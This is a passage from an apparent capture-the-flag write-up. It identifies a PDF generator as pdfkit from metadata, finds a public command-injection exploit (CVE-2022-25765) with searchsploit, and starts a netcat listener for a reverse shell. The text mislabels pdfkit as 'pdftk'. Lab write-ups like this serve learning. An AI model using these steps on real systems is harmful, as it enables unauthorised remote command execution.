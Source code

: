 Result:

```text
ExifTool Version Number         : 12.16
File Name                       : enyqrlbvkx9yp09fe2fpqlbo21mxl9uf.pdf
Directory                       : /root/Downloads
File Size                       : 16 KiB
File Modification Date/Time     : 2023:04:29 22:24:59+02:00
File Access Date/Time           : 2023:04:29 22:24:59+02:00
File Inode Change Date/Time     : 2023:04:29 22:24:59+02:00
File Permissions                : rw-rw----
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

## Gaining access

### pdftk v0.8.6

Searching for a vulneravility in pdftk, an interesting one can be found :

```shell
searchsploit pdfkit
```

Result:

```text
tle                                               |  Path
------------------------------------------------------------- ---------------------------------
pdfkit v0.8.7.2 - Command Injection                          | ruby/local/51293.py
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

get the exploit :

```shell
searchsploit -m 51293
```

Analysing the code, the vulnerabilitry is known as CVE-2022–25765, a remote command injection.

By providing some specific instruction, it is possible to ask pdftk to execute some instructions.

We can use the exploit to directly create an HTML payload: instead of providing an URL, it will provide the payload in the POST request (parameter `url`).

Start a listener :

```shell
nc -nvlp 4444
```

